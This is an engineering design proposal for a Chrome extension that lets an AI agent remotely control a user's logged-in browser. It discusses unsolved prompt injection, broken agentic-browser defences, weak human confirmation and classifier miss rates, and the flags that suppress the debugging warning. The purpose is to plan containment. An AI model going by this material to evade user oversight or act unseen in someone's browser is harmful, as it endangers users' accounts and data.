

# Remote Browser Automation — a second extension that lets the agent drive your Chrome

> **Status:** Proposal · 2026-08-21 · **not built, nothing merged, no code written**
> **Owner review requested.** This is a security-posture change, not a feature add. Read §2 before §3.
> **Depends on:** [`agent-platform.md`](./agent-platform.md) — its per-tool allow/ask/deny
> permission layer and its standalone agent service on the live-server VM are prerequisites.
> **agent-platform.md ships FIRST. This ships SECOND.**
> **Corrects:** [`live-sessions.md`](./live-sessions.md) §6.16 (remote actuation was scoped as an
> alarm-drained command queue and rejected for latency — superseded here) and
> [`live-server-v3.md`](./live-server-v3.md):145 (*"an MV3 service worker can't hold a socket"* —
> **outdated since Chrome 116**; see §10.2).
> **Answers:** [`live-sessions.md`](./live-sessions.md) §9.2 item 1 — the two-key model — which is
> still marked *undecided* and becomes load-bearing the moment a remote party can *act*, not just
> read (§13.3).

---

## 1. Summary

Today the agent in `apps/web/app/api/chat/route.ts` can search your library and list your saved
sessions. It cannot open a page, cannot read a page you have not already bookmarked, and cannot
touch your logged-in accounts. This proposal changes that: a **new, separate Chrome extension**
attaches `chrome.debugger` to a scoped set of tabs and executes a **closed vocabulary of ~16
semantic actions** dispatched from the Bookmark AI agent service — so that a message typed on the
phone (*"open the three Rust async posts I saved last week, pull the code samples out of each,
and put them in one note"*) executes in the user's real, already-authenticated desktop Chrome.

```
┌────────────┐   HTTPS    ┌────────────────────────┐  Web Push  ┌──────────────────────┐
│  Phone     │──────────▶ │  Agent service (VM)    │───────────▶│  Chrome (user's Mac) │
│ Expo app   │            │  agent-platform.md     │            │  extension-remote SW │
│ chat UI    │◀───────────│  + live-server relay   │◀──────────▶│  chrome.debugger     │
└────────────┘   SSE      └────────────────────────┘  WebSocket └──────────┬───────────┘
                                                                            │ CDP (local)
                                                                            ▼
                                                                    ┌───────────────┐
                                                                    │ Logged-in tab │
                                                                    └───────────────┘
```

Three properties define the design:

1. **The CDP loop stays local.** What crosses the WAN is a semantic command
   (`{"action":"click","ref":"e12"}`), never raw Chrome DevTools Protocol. One WAN round-trip per
   user-visible action, not per protocol message. (§9)
2. **The command vocabulary is a closed switch statement, shipped in-package.** The wire payload
   carries *parameters only, never control flow*. This is not a stylistic choice — it is the only
   construction that survives Chrome Web Store's "interpreter" clause (§8).
3. **Containment ships with v1.** Egress control and DOM redaction are Phase 5, in the same
   release train as the tool surface, not a follow-up. Prompt injection is unsolved; confirmation
   dialogs are not a security boundary (§13).

**Estimated size:** 6 phases, 3 spikes gating the whole thing. This is a multi-week build with a
Chrome Web Store review (and probably an appeal) on the critical path.

---

## 2. Honest framing — read this before deciding

This section exists because the rest of the document is a design, and a design reads as
inevitability. It isn't. Here is what is true.

### 2.1 What cannot be fixed by better engineering

| Reality | Consequence |
| --- | --- |
| **The `chrome.debugger` infobar cannot be removed.** Chromium renders `"<CLIENT_NAME>" started debugging this browser` as an infobar in **every tab of the window** whenever an extension is attached anywhere. Suppression requires `--silent-debugger-extension-api` (a launch flag) or enterprise force-install policy — **neither is available to a consumer install from the Web Store.** Anthropic hit exactly this wall with Claude in Chrome. | Every automated session is visibly, unmistakably marked. Good for safety, bad for "invisible background research." Also: **the user dismissing the bar kills the session** (`canceled_by_user`). Design for it, do not fight it. |
| **The permission warning cannot be deferred.** `debugger` is flagged `kFlagCannotBeOptional` + `kFlagImpliesFullURLAccess` + `kFlagRequiresManagementUIWarning` in Chromium's permission table. It cannot be an optional permission requested at first use. With **zero** host permissions declared, the install prompt still says **"Read and change all your data on all websites."** | The scary string is on the install screen, unconditionally, forever. The only honest move is to make the *listing and the first-run flow* explain it better than the prompt can. |
| **Prompt injection is unsolved, and every vendor says so in writing.** OpenAI, Anthropic, Google DeepMind, Microsoft and the UK NCSC have all published the same admission. | Any page the agent reads can attempt to redirect it. There is no configuration of this system that eliminates that. |
| **The best-defended shipping product in this category was broken in June 2026.** LayerX's "BioShocking" research defeated all six shipping agentic browsers, Claude-in-Chrome included; the patch was marked **failed**. | Our security posture will be *worse* than theirs on day one. Plan accordingly (§13). |
| **Human-in-the-loop is weak.** Anthropic measured **93% blind-approval** on confirmation prompts. Their action classifier carries a **17% false-negative rate**. OWASP LLM Top 10 explicitly declines to treat HITL as a control. | Confirmation dialogs are a *courtesy*, not a boundary. Do not budget them as mitigation (§13.5). |
| **No CVEs exist in NVD for any of these products.** The vulnerability corpus lives in vendor bug-bounty writeups, not the national database. | Standard dependency/vuln scanning will report this stack clean. That is an artifact of the corpus, not evidence of safety. |

### 2.2 What is genuinely reassuring

- **This is already shipping in production, at scale, from the most safety-conservative vendor in
  the space.** Anthropic **Claude Dispatch** went GA in July 2026 with precisely this topology:
  phone → Anthropic cloud → **SSE to the desktop app** → an extension driving the user's real
  logged-in browser via **`chrome.debugger`**. Anthropic's own documentation states the
  permission is *"what allows Claude to actually control your browser – clicking buttons, typing
  text, and taking screenshots."* Claude in Chrome has ~14M users. There is CWS precedent, a
  published safety model, and a reference architecture.
- **The topology to copy is stated plainly in Claude Code's Remote Control docs:** the local
  session *"makes outbound HTTPS requests only and never opens inbound ports"* and uses
  *"multiple short-lived credentials, each scoped to a single purpose and expiring
  independently."* That is exactly our `bkd_` scoped-token pattern, already built (§4.3).
- **We are not first, and we are not alone.** Every credible shipping product converged on the
  same hybrid — CDP for writes, content scripts for reads (§6).
- **Anthropic's own attack-success-rate went 23.6% → ~0%** between the Aug 2025 preview and July
  2026 — **but only with a deterministic action-blocking "Auto Mode"** engaged. Without it the
  measured rate was 3.7%. The lesson is not "the model got safe"; it is **"the deterministic
  layer is what worked."** Our §13.1/§13.2 are that layer.

### 2.3 What Dispatch got wrong that we must not copy

Independent analysis of Dispatch found:

- *"No additional authentication for remote commands beyond the Claude session itself — no MFA,
  no device binding, no presence check."*
- Logs *"do not distinguish whether a command came from the phone or the desktop."*
- Audit bugs: child session logs survived parent-session deletion; log files were world-readable.

Our design must **bind device + identity + recency** (§13.3) and **log command origin** (§13.6).
These are cheap. Skipping them is how a well-designed system becomes an incident report.

### 2.4 The one-sentence version

> Building this makes a stolen Bookmark AI session into a remote-control primitive over a
> logged-in browser. The infobar is the only thing the operating system will tell the user about
> it. Everything else that protects them, we have to build — in v1, not later.

---

## 3. Goals / non-goals

### 3.1 Goals

| # | Goal |
| --- | --- |
| G1 | From the mobile chat, the agent can **open, read, and summarize** pages in the user's real logged-in desktop Chrome — including pages behind a login the agent could never reach from the server. |
| G2 | A **closed, enumerable** action vocabulary (~16 verbs, §9.4) that a CWS reviewer can read top-to-bottom in one file. |
| G3 | **One WAN round-trip per user-visible action.** Target p50 < 1.2s and p95 < 2.5s for `snapshot` and `click` on an already-connected session (§16, spike C). |
| G4 | **Zero idle cost.** No socket, no polling, no timer when no session is running. Idle state is a Web Push subscription and nothing else. |
| G5 | **Containment before capability**: origin-set egress control and DOM redaction are in the v1 release train (§13.1, §13.2). |
| G6 | Every action is attributable: **which device issued it, from which surface (phone vs desktop), under which pairing, at what time**, in a log the agent cannot rewrite (§13.6). |
| G7 | Kill switches at four independent depths, any one of which fully stops actuation (§13.7). |
| G8 | The shipping bookmark extension (`apps/extension/`) is **not modified in any way that changes its permission set.** |

### 3.2 Non-goals — explicitly out of scope

| # | Non-goal | Why |
| --- | --- | --- |
| N1 | **Laptop-closed autonomy.** "Run this while I'm on the train with my Mac shut." | Chrome closed ⇒ unreachable. There is no macOS background mode that revives it, and no network-event wake vector for an MV3 worker. The design target is *"the host machine is awake."* True closed-laptop autonomy needs a cloud browser — which by definition is **not your logged-in session**. Opera Neon is the only product claiming it, precisely because it isn't. Say this to the user in the UI, not just in this doc. |
| N2 | **"Do anything in my logged-in browser."** | Scope is a narrow verb set aimed at bookmark / tab / research workflows. Purchases, account creation, credential entry, financial transactions and permanent deletions are **refused outright** (§12.3), not confirmed. |
| N3 | **Firefox / Safari.** | `chrome.debugger` has no cross-browser equivalent. This is a Chrome-only extension. Firefox and Safari users keep `apps/extension/` unchanged and get nothing new. |
| N4 | **Bolting this onto `apps/extension/`.** | Structurally impossible under CWS Single Purpose + the `debugger` permission flags. See §7. |
| N5 | **Remote CDP over the WAN.** | Candidate A in §9.1. Fatally slow and an unrestricted-CDP-on-the-internet posture. |
| N6 | **A general "run this script on my browser" escape hatch.** | The exact thing CWS names as a violation (§8.1). No `evaluate`, no `eval`, no `new Function`, no remote module import — ever, in any phase. |
| N7 | **Multi-user / shared-browser control.** | Single-tenant per pairing. One user's agent, one user's browser. |
| N8 | **Replacing the Live Sessions relay.** `POST /live` and `GET /live/stream` are untouched (§11.1). | The read-only mirror is a shipped, working, *lower-risk* feature. Do not entangle them. |

---

## 4. Current state — what exists today, with paths

### 4.1 The shipping extension (`apps/extension/`)

WXT 0.20 + React 19, three side-by-side build targets (prod / dev / local), each with a distinct
pinned CRX key and stable extension id (`apps/extension/wxt.config.ts:22-44`).

**Permission set today** (`apps/extension/wxt.config.ts:113-123`):

```
activeTab · tabs · storage · alarms · cookies
  + chrome:  bookmarks, readingList, tabGroups
  + firefox: bookmarks
  + safari:  scripting
```

**Not present, and this matters:** no `debugger`, no `scripting` on Chrome, no `webNavigation`,
no `nativeMessaging`, no `offscreen`.

`host_permissions` (`wxt.config.ts:70-78`) is a static superset of all three targets: localhost,
`bookmark-ai.cloud` apex + www, `bookmark-ai-dev.vercel.app`, both Clerk FAPI origins, and
`live.bookmark-ai.cloud`.

`externally_connectable.matches` (`wxt.config.ts:141`) is **app pages only**
(`apps/extension/lib/app-origins.ts` → `APP_PAGE_MATCHES`), Chrome-only, and carries exactly two
message types: session-restore handoff and the install-detection ping. **There is no command
surface on it, and there must not be one.**

### 4.2 Entrypoints and contracts

| File | Lines | Role |
| --- | --- | --- |
| `apps/extension/entrypoints/background.ts` | 1131 | Message router, auth ladder, device-token mint/renew, native-sync registration |
| `apps/extension/entrypoints/bridge.content.ts` | — | Safari credentialed-fetch bridge (Safari partitions the extension from the web session entirely) |
| `apps/extension/entrypoints/marker.content.ts` | — | Stamps `data-bookmark-ai-extension="1"` for Firefox/Safari install detection |
| `apps/extension/lib/messages.ts` | 389 | Typed popup↔background contract: `SAVE_BOOKMARK`, `SAVE_SESSION`, `GET_USER`, `LIVE_SET_ENABLED`, `LIVE_PUSH_NOW`, `LIVE_WINDOW_GET`/`SET`, each with an `isXMessage()` guard |

There is **no options page** — configuration lives in the popup (`apps/extension/entrypoints/popup/`).

### 4.3 Auth — the pattern we extend

Three mechanisms, ladder order in `getSessionToken`: device token → Clerk SDK → Native API →
device token (fallback).

- **Clerk `syncHost`** (`@clerk/chrome-extension`) mirrors the web session.
- **Native API cookie fallback** (`apps/extension/lib/native-session.ts`) for the production Clerk
  instance, where `__client` is HttpOnly on the FAPI domain.
- **Durable device token** (`apps/extension/lib/device-token.ts`, 243 lines) — the primary bearer.

The device token is the pattern this proposal extends. From `apps/web/lib/server/device-token.ts`:

```
DEVICE_TOKEN_PREFIX          = "bkd_"           (:35)
DEVICE_TOKEN_TTL_SECONDS     = 90 * 24 * 60 * 60   (:38)
DEVICE_TOKEN_ROOT_MAX_AGE_SECONDS = 365 days       (:45)
claims: { sub, iat, exp, rti, scp }                (:53-59)
scp !== DEVICE_TOKEN_SCOPE  →  reject              (:162)   // "unknown/absent scope = not a token we honor"
```

HS256 over `DEVICE_TOKEN_SECRET`, `.` → `~` swapped in the wire form (otherwise Clerk's
middleware treats it as a JWT and 500s), self-renewing at most once per 24h.

**The scope check at `:162` is the hinge of this entire proposal.** The verifier already rejects
any `scp` it does not recognize. Adding `scp:"auto"` is therefore *additive and independently
revocable*: burning the automation credential does not sign you out of bookmarking, and a
compromised bookmarking token cannot drive the browser.

**Route scoping** is already built and unspoofable:

- `DEVICE_TOKEN_ROUTES` allowlist — `apps/web/lib/server/require-user.ts:73`
- `normalizeRoute(h.get("x-bkm-route"))` — `require-user.ts:87-98, 154-161`
- The header is stamped (and always overwritten) in `apps/web/middleware.ts:113`
- Mirrored server-side in `apps/live-server/src/auth.ts`

The **four-mechanism self-healing 401 ladder** (`apps/extension/lib/api.ts` `authFetch` retry-once
→ `apps/extension/lib/auth-refresh.ts` `refreshCredential()` single-flight → the 6h `authTick`
alarm in `background.ts` → `getUsableDeviceToken()` inline renewal) is battle-tested and should be
**reused verbatim** in the new extension. Do not reinvent it.

### 4.4 The live relay — the transport we extend

`apps/live-server/` is a standalone **Fastify + ioredis** service on an Oracle Cloud ARM64 VM
behind Caddy (`flush_interval -1` for SSE), at `live.bookmark-ai.cloud`. Deployed by
`.github/workflows/live-server-deploy.yml` on any push to `main` touching `apps/live-server/**`.

```
apps/live-server/src/
├── server.ts        Fastify bootstrap; bodyLimit 2_000_000; trustProxy; CORS; registers 7 routes
├── auth.ts          makeAuthPreHandler — verifies bkd_ locally + Clerk JWT + open mode
├── device-token.ts  local bkd_ verifier (mirror of the web one)
├── live-store.ts    Redis reads/writes
├── fanout.ts        per-user SSE coalescing, 500ms window
├── redis.ts         createRedis / RedisBundle
├── keys.ts          key builders (below)
├── sse.ts · cors.ts · config.ts · deps.ts · types.ts
└── routes/  push.ts · list.ts · stream.ts · forget.ts · rename.ts · settings.ts · health.ts
```

Endpoints (**no `/api` prefix**):

| Method | Path | Notes |
| --- | --- | --- |
| `GET` | `/health` | public liveness |
| `POST` | `/live` | push a checkpoint; 429 over 2000/device/day |
| `GET` | `/live` | full read |
| `GET` | `/live/stream` | SSE — `event: state`, **FULL-state frames only, no deltas**; capped 8 streams/user |
| `DELETE` | `/live/:deviceId` · `DELETE /live` | forget one / purge all |
| `POST` | `/live/settings` | account flag |

Redis namespace, all hash-tagged per user for a future Cluster move
(`apps/live-server/src/keys.ts`):

```
live:{userId}:dev:<deviceId>      device snapshot Hash, 7d TTL
live:{userId}:index               device index
live:{userId}:enabled             account flag — ABSENT ⇒ OFF (fail-safe)
live:{userId}:quota:<dev>:<day>   daily push counter, self-cleaning
live:{userId}:events              pub/sub channel (AT-MOST-ONCE — drops for absent subscribers)
live:{userId}:winnames:<dev>      per-window user names
live:{userId}:newwin:<dev>        per-device new-window policy
```

### 4.5 Extension → server publish, today

`apps/extension/lib/live-checkpoint.ts` (414 lines): 5s trailing debounce on tab/window events;
`windows.onRemoved` flushes immediately; a `chrome.alarms` ~2min heartbeat re-stamps liveness;
failure backoff 1m → 2m → 5m → 15m → 30m. Push goes through
`apps/extension/lib/live-api.ts:pushLiveState()` → `POST {liveBase}/live`.

`setBadge()` in that module is **the one existing ambient "this device is doing something"
indicator.** `live-sessions.md` §5.2 calls it *"the single highest-leverage control in the design
and the one most likely to be cut as polish. Do not cut it."* The same sentence applies here, with
more force.

### 4.6 Consumers — SSE, down-only

| Client | File | Library |
| --- | --- | --- |
| Web | `apps/web/hooks/use-live.ts` | `@microsoft/fetch-event-source`, capped backoff |
| Mobile | `apps/mobile/src/hooks/useLiveDevices.ts` | `react-native-sse`, flat 5s retry, uncapped |
| Mobile helpers | `apps/mobile/src/lib/live.ts` | display formatting |

### 4.7 The critical gap

```
  TODAY                                    NEEDED
  ─────                                    ──────
  extension ──push──▶ relay                extension ──push──▶ relay
                        │                                        │
                        ├─SSE─▶ web                              ├─SSE─▶ web
                        └─SSE─▶ mobile                           └─SSE─▶ mobile
                                                                 │
       ✗ nothing points back                    relay ──cmd──▶ extension   ◀── THIS
```

**The channel is strictly one-directional. There is no server → extension path of any kind.**

`live-sessions.md` §6.16 ("Remote actuation") already sketched one — piggyback a command queue on
the `POST /live` response body, `{ok:true, commands:[{type:"openTab", url:"…"}]}`, drained on the
alarm wake — and **rejected it**:

> *"~3-minute latency with no delivery guarantee is a bad first impression. **Ship read + promote.**
> This is the one thing that would eventually justify a realtime vendor — not before."*

That verdict was correct **for that transport**. §10 proposes a different one (silent Web Push to
wake + a WebSocket for the duration of a session) that gets sub-second wake latency at zero idle
cost, which is what changes the calculus.

---

## 5. Capability matrix — why `chrome.debugger` and nothing else

### 5.1 The three candidate primitives

| Capability | `chrome.debugger` (CDP) | `chrome.scripting` + synthetic events | `chrome.tabs` only |
| --- | --- | --- | --- |
| **Input trust** | `Input.dispatchMouseEvent` / `dispatchKeyEvent` / `insertText` produce **`isTrusted = true`** — indistinguishable from a human | `element.click()` / `dispatchEvent` are **`isTrusted = false`** | n/a |
| Screenshots | `Page.captureScreenshot` — any tab, any size, full-page, no focus requirement | `chrome.tabs.captureVisibleTab` — **active tab only, rate-limited ~2/sec** | same as scripting |
| Structured page read | `Accessibility.getFullAXTree` — the same tree the browser exposes to AT, with stable backend node ids | DOM walk you write yourself | ✗ |
| Cross-origin iframes | **OOPIF supported** via flat sessions (Chrome 125+) | ✗ — a separate injection per frame, and no coordination | ✗ |
| `<input type=file>` | `DOM.setFileInputFiles` | ✗ (the file picker is unreachable from page JS) | ✗ |
| Canvas / WebGL apps | Works — real input events at real coordinates | ✗ | ✗ |
| Native dialogs (`alert`, `confirm`, `beforeunload`) | `Page.javascriptDialogOpening` + `handleJavaScriptDialog` | ✗ — blocks the page and you cannot dismiss it | ✗ |
| Network observation | `Network.*` domain | ✗ | ✗ |
| **Service-worker lifetime** | **Attach pins the SW** — Chromium marks the worker `kDoesNotTimeout` while a debuggee is attached (Chrome 118+) | 30s idle death | 30s idle death |
| Tab lifecycle | via `Target.*` or plain `chrome.tabs` | `chrome.tabs` | ✓ |
| **Visible warning** | **Infobar in every tab of the window**, per attached extension | none | none |
| Install-prompt warning | "Read and change all your data on all websites" | host-permission dependent | mild |
| Concurrency | **One debugger client per tab.** Opening DevTools on that tab **evicts** us | n/a | n/a |

### 5.2 The `isTrusted` cliff — this is the whole argument

An untrusted event is defeated by, at minimum:

- Every commercial bot-detection product (Cloudflare Turnstile, PerimeterX, DataDome, Akamai)
- **OAuth consent buttons** — Google, GitHub and Microsoft all require a trusted activation
- **Payment iframes** — Stripe Elements, PayPal, Apple Pay all check `isTrusted`
- Any `requestFullscreen`, `navigator.clipboard.write`, popup-open, or file-picker path, all of
  which are gated on **transient user activation**, which synthetic events do not confer
- Framework handlers that read `event.isTrusted` defensively (increasingly common since 2024)

**Nobody credible ships content-script synthesis as the actuation path.** The failure mode is not
"slightly less reliable"; it is "silently does nothing on the exact pages that matter," which is
the worst possible failure mode for an agent that reports success to a user on a phone.

### 5.3 The infobar, precisely

Verified against Chromium source and reproduced in the wild:

| Fact | Detail |
| --- | --- |
| String | `"<CLIENT_NAME>" started debugging this browser` — `CLIENT_NAME` is the extension's manifest `name` |
| Scope | **One bar per attached extension, rendered in every tab of the window.** 10 tabs = 1 bar, not 10. Attaching to a second tab does **not** add a second bar. |
| Dismissal | **Clicking Cancel detaches every target and terminates the session** with `canceled_by_user`. This is a real, user-reachable kill switch (§13.7). |
| Auto-close | ~5 seconds after the last debuggee detaches |
| Suppression | `--silent-debugger-extension-api` (launch flag) **or** enterprise force-install policy. **Neither applies to a Web Store consumer install.** |
| Not a thing | `--disable-infobars` is not a real Chrome switch. Globally disabling infobars via other means detaches the debugger. |

**Design consequence:** treat the infobar as a *feature*, surface it in onboarding
("you'll see a yellow bar — that's Bookmark AI, and clicking Cancel stops it"), and never build a
flow that depends on the user not noticing.

### 5.4 Unverified — SPIKE FIRST

> **Does `Input.dispatchMouseEvent` require the target tab to be active in its window, and/or
> require the window to have OS focus?**

This single question determines whether automation can run **invisibly in a background window**
while the user works, or whether it must **steal the foreground** for every click. It changes the
product. It is spike (a) in §16 and it gates Phase 2. Do not write the tool surface before it is
answered.

---

## 6. Prior art — every shipping product, CRX-verified

| Product | Permissions (from the shipped CRX) | Installs | What we take / avoid |
| --- | --- | --- | --- |
| **Browser MCP** | `debugger`, `scripting`, `storage`, `tabs`, `webNavigation` | ~100k | Proves the CWS lane exists at scale. **Not a model:** 16 months stale, and the relay server has no meaningful auth. |
| **nanobrowser** | above + `debugger` | ~40k | Open source, readable. Multi-agent, but only `{Planner, Navigator}` — the "specialist agents" framing is marketing. Useful reference for the a11y-tree snapshot format. |
| **Midscene** | `debugger` + friends | ~30k | Screenshot-and-coordinates fallback path is well done. |
| **Microsoft Playwright Extension** | `debugger`, `activeTab`, `tabs`, `tabGroups` | — | **The architectural reference.** Allow-lists exactly 5 CDP calls in `relayConnection.ts`; **fakes** missing CDP domains server-side in `cdpRelay.ts` so the client sees a complete protocol; per-client **tab groups** you drag tabs in and out of; a status page with per-connection disconnect. |
| **Playwright CRX** | `debugger`, `tabs`, **no host permissions** | — | Proof that a debugger extension needs zero host perms. |
| **Claude in Chrome (Anthropic)** | `debugger` + companion set | ~14M, v1.0.85 | The safety model, the Auto-Mode deterministic blocker, the origin-set consent UI, and the honest published ASR numbers. |

### 6.1 The line Microsoft draws that we cross

Playwright's extension **refuses non-loopback relays**:

> `Playwright extension only allows loopback connections`

That is a deliberate, defensible choice: their threat model is "a developer on their own machine."
**Ours is not** — the entire point is a phone on a cellular network reaching a Mac at home. We are
consciously crossing a line Microsoft chose not to cross, and §13 is the price of admission for
doing so. This should be stated in the store listing and in onboarding, not buried.

### 6.2 Non-extension routes are closed

Since **Chrome 136**, `--remote-debugging-port` is **ignored on the default profile**. Attaching an
external CDP client to the user's real, logged-in Chrome is no longer possible. A separate
automation profile is not the user's session, which defeats the purpose. **The extension is the
only remaining door.**

---

## 7. Why this must be a separate extension

### 7.1 The permission flags forbid the incremental path

From Chromium's `chrome_permissions.cc` permission table, `debugger` carries:

| Flag | Consequence |
| --- | --- |
| `kFlagCannotBeOptional` | **Cannot** be an `optional_permissions` entry. Cannot be requested at runtime behind a "grant access?" prompt. It is in the manifest at install time or it does not exist. |
| `kFlagImpliesFullURLAccess` | The install prompt says **"Read and change all your data on all websites"** even with an empty `host_permissions`. |
| `kFlagRequiresManagementUIWarning` | Persistent warning surface in `chrome://extensions`. |

So: **adding `debugger` to `apps/extension/` re-prompts every existing installed user with a
full-access warning, and disables the extension until they accept.** For a bookmark manager whose
entire value proposition is "one click to save a page," that is a catastrophic conversion event.

### 7.2 Single Purpose policy

CWS Single Purpose requires an extension to have "a single purpose that is narrow and easy to
understand." "Save bookmarks **and** let a remote AI drive your browser" is two purposes with
wildly different risk profiles. A reviewer will read it that way, and they will be right.

### 7.3 The decision

| | |
| --- | --- |
| **New package** | `apps/extension-remote/` — WXT, **Chrome MV3 only** |
| **npm name** | `@bookmark-ai/extension-remote` |
| **Store name** | *Bookmark AI Remote* |
| **Single purpose** | "Lets your own Bookmark AI assistant operate this browser on your behalf." |
| **Relationship** | Independent install. Requires the user to be signed in to Bookmark AI, but does **not** require `apps/extension/` to be installed. |
| **Hard rule** | `apps/extension/wxt.config.ts` permissions array is **not touched by this project.** Any PR in this initiative that modifies it is wrong. |

The two extensions share code the only way this repo shares code: through `packages/*`. The
device-token client logic, the `authFetch` 401 ladder, `lib/detect.ts` and the diag breadcrumb
helper should be **lifted into a new `packages/ext-core/`** (multi-file, no `.js` extensions in
relative imports) and consumed by both, rather than copy-pasted. That refactor is Phase 2's first
task and is a pure move — no behavior change to the shipping extension.

---

## 8. Chrome Web Store policy survival

This section is not optional reading. **The naïve version of this design is named as a violation
in CWS policy text, verbatim.**

### 8.1 The interpreter clause

MV3 remote-code policy:

> *"Building an interpreter to run complex commands fetched from a remote source, **even if those
> commands are fetched as data**."*

The clause anticipates and explicitly rejects the "it's only JSON" defense. A rejection under this
clause carries the internal code **"Blue Argon."**

### 8.2 The exemption, and it is narrow

The same policy:

> *"The permitted APIs for such remote execution are: **Debugger API, User Scripts API**."*

Chrome DevRel (Oliver Dunk) has drawn the line consistently in public: it is fine to *"change the
parameters to a function"* from a remote source; it is not fine to *execute code* from a remote
source.

### 8.3 Surviving by construction, not by argument

We do not want to *win* this argument at review time. We want the design to be one a reviewer
cannot construe as an interpreter. Five properties, all structural:

1. **The vocabulary is a closed `switch` over a TypeScript string-literal union**, in one file,
   `apps/extension-remote/lib/actions/index.ts`, importing one handler module per verb. A reviewer
   can enumerate every reachable behavior by reading ~16 case labels.
2. **The wire payload carries parameters only, never control flow.** `{"action":"click","ref":"e12"}`.
   There is no field that names a function, a selector-with-code, a JS expression, a URL to fetch
   logic from, or a chain/sequence of steps. Validation is a Zod discriminated union in
   `packages/types/src/automation.ts` and **anything that fails `safeParse` is dropped, logged, and
   never partially executed.**
3. **All actuation goes through `chrome.debugger`** — the exempted API — never through
   `chrome.scripting.executeScript` with a dynamic `func`, never `userScripts`.
4. **Statically impossible to eval.** No `eval`, no `new Function`, no `import()` of a remote
   specifier, no `<script src>` injection, no `chrome.scripting` at all. Enforce with a lint rule
   in the package and a build-time grep in CI that fails the build on the string forms.
5. **CSP + no remote assets.** The extension bundles everything. `content_security_policy` is the
   restrictive MV3 default with nothing added.

### 8.4 The store listing, written for the reviewer

The listing is a compliance artifact. Draft it during Phase 1, not the week of submission. It must
say, in the description and in the "single purpose" field:

- All decision logic ships **in the package**; the server transmits **parameters** to a fixed set
  of **N named actions**, never code.
- Actuation is via the **Debugger API**, which store policy names as permitted for this purpose.
- The `debugger` permission is required because synthetic events cannot operate real login
  flows — with the specific reason ("clicking a button in a page you are logged into").
- A link to a public page enumerating **every verb** and what it can do.

Include a short screencast showing the infobar appearing. Reviewers respond well to being shown
the scary thing rather than having to find it.

### 8.5 The 1 August 2026 data rule — the sharpest live risk

Since 1 Aug 2026, CWS requires **in-UI disclosure and consent, before collection**, when an
extension transmits user data to a third party. Sending the DOM / accessibility tree / screenshot
of a **logged-in page** to an LLM backend is squarely inside that.

**This is a bigger near-term rejection risk than the interpreter clause**, because it is newer,
enforcement is active, and it is checked by policy tooling rather than judgment. Requirements:

- A **first-run consent screen inside the extension** (not the store listing, not the web app)
  that states: page content from tabs you authorize — including content visible only because you
  are logged in — is sent to Bookmark AI's servers and to an AI model to fulfill your request.
- Consent recorded per-install, with a timestamp, revocable from the extension UI.
- The privacy policy at `bookmark-ai.cloud/privacy` updated in the same release, with a section
  specific to this extension.
- The **Data safety** form filled out consistently with all of the above. Inconsistency between
  the form and the code is a common rejection cause.

### 8.6 Budget an appeal

Assume **one rejection and one appeal cycle**, 1–3 weeks. Prepare in advance:

- A written response to the interpreter clause citing the Debugger-API exemption and pointing at
  the specific file containing the closed switch.
- A tagged, reviewable source URL.
- A named human contact.

Do not ship a launch announcement with a date on it until the extension is live.

---

## 9. Architecture

### 9.1 Three candidates

#### Candidate A — thin pipe: raw CDP over the WAN

The extension forwards `chrome.debugger.sendCommand` verbatim; the intelligence lives server-side
(this is roughly what Browser MCP does, over loopback).

```
agent ──[CDP: Runtime.evaluate, DOM.querySelector, Input.dispatch…]──▶ WAN ──▶ extension
```

**Rejected. Fatal on latency.** A single auto-waiting Playwright-style click is not one CDP call —
it is a resolve, a visibility poll loop, a scroll-into-view, a hit-test, and a three-event input
sequence. At a 60–120ms WAN RTT that is **seconds per user-visible action**, and the failure mode
under a flaky mobile network is a half-completed click. Secondary and also disqualifying:
unrestricted CDP reachable over the public internet is the strongest possible primitive to hand an
attacker who steals one token.

#### Candidate B — semantic closed vocabulary over the WAN, CDP loop local ✅ **CHOSEN**

The extension exposes ~16 verbs. Each verb owns its own auto-wait, retry, and error taxonomy,
entirely locally, in the extension.

```
agent ──[{"action":"click","ref":"e12"}]──▶ WAN ──▶ extension ──[CDP ×N, ~0ms RTT]──▶ tab
```

- **One WAN round-trip per user-visible action.**
- Payloads fit comfortably in the relay's existing ~42KB practical budget (screenshots excepted —
  §10.5).
- Matches Claude in Chrome and nanobrowser.
- Survives the interpreter clause by construction (§8.3).

**Costs, stated honestly:** we own auto-waiting, staleness detection, and retry semantics — the
part of Playwright that took years to get right. Budget for it; expect the first three months of
bug reports to be "it clicked the wrong thing because the page moved."

#### Candidate C — content scripts only

**Rejected twice over.** Fails on capability (`isTrusted`, §5.2) *and* on policy — a content script
executing a remotely-fetched command list is the interpreter clause with no exemption available,
because the Debugger-API carve-out does not apply to `scripting`.

### 9.2 Chosen shape



**What crosses the WAN:** a semantic command in, a compact result out (an a11y snapshot, a text
extract, a status, or a `screenshotId`).
**What never crosses the WAN:** any CDP message, any raw DOM, any full-resolution image bytes on
the command channel, any code.

### 9.3 Page representation — accessibility tree with stable refs

`snapshot` returns a compact tree derived from `Accessibility.getFullAXTree`, with every actionable
node assigned a **stable per-snapshot handle** `e1`, `e2`, … mapped internally to a CDP
`backendNodeId`:

```yaml
# snapshot(tabRef="t3") →
url: https://news.ycombinator.com/item?id=41234567
title: "Show HN: …"
tree:
  - heading "Show HN: A thing" level=1
  - link "41234567" [ref=e1] href=https://example.com/thing
  - button "upvote" [ref=e2]
  - textbox "add comment" [ref=e3] value=""
  - button "reply" [ref=e4] disabled
truncated: false
```

**Rules:**

- Refs are valid **only within the snapshot that produced them**, tagged with a `snapshotId`.
  `click({ref})` against a stale `snapshotId` returns `{error:"stale_snapshot"}` and the agent must
  re-snapshot. This is deliberately strict — silently re-resolving a stale ref is how automation
  clicks the wrong button.
